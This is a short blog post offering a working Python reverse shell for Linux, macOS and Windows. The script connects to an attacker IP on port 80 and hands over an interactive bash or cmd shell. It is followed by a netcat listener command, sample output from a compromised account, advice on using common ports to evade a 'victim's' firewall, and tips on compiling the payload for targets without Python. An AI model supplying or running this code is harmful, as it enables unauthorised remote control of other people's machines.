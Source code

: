 # Python Multi-Platform Reverse Shell
30.06.2020, 23:34 - Autor: Dorian V.


This is an easy yet powerfull Reverseshell written in Python. With this Shell you can go through the victims Firewall since the connection is 
going from the inside to the outsite.


### Tested on Python 3.6 under Kali Linux

```markup
#!/usr/bin/python
import socket, subprocess, os, sys

# Verbindung aufbauen
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(("192.168.1.186", 80))

# Mac OSX, Unix, Linux oder Win mit Cygwin
if sys.platform != "win32":
    os.dup2(soc.fileno(), 0)
    os.dup2(soc.fileno(), 1)
    os.dup2(soc.fileno(), 2)
    # Windows mit Cygwin - run cmd.exe
    if sys.platform == "cygwin":
        proc = subprocess.call(["C:\Windows\System32\cmd.exe"])
    # OSX, Unix, Linux - run bash
    else:
        proc = subprocess.call(["/bin/bash", "-i"])
# Windows 
else:
    data = soc.recv(1024)
    cmd = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    STDOUT, STDERR = cmd.communicate()
    soc.send(STDOUT)
    soc.send(STDERR)
```

<br>
For the victim to be able to properly connect with us, we need to launch a Server-Service like Netcat on our machine:
<br>

```markdown
root@kali:~# nc -l -p 80
bash: no job control in this shell
bash-3.2$ whoami
dorian
bash-3.2$ id
uid=501(dorian) gid=20(dorian)
groups=20(staff), 501(access_bpf), 12(everyone), 61(localaccounts), 79(_appserverusr), 80(admin), 81(_appserveradm), 98(_lpadmin), 701(com.apple.sharepoint.group.1), 33(_appstore), 100(_lpoperator), 204(_developer), 395(com.apple.access_ftp), 398(com.apple.access_screensharing), 399(com.apple.access_ssh)
```
<br>
In this example -l stands for listen and -p 80 for port 80. At this point it is worth mentioning to use standart ports like 80 for HTTP which usually are not getting blocked by the Firewall.


Of course not everybody has Python already installed. For this case there are Compiler for Python like *py2exe*(Win), *cx_Freeze*(Cross-Plattform), *py2app*(OSX), or *Nuitka*(Cross-Plattform).


